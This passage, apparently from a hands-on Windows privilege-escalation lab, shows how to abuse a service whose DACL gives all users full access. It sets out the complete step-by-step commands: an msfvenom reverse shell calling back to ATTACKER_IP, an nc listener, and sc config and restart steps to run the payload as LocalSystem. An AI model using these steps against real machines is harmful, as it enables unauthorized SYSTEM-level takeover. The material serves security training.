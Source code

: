 ### Insecure Service Permissions
You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:
```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
    [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```
We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:
`C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):
`C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:
```
C:\> sc stop THMService
C:\> sc start THMService
```

And we will receive a shell back in our attacker's machine with SYSTEM privileges:
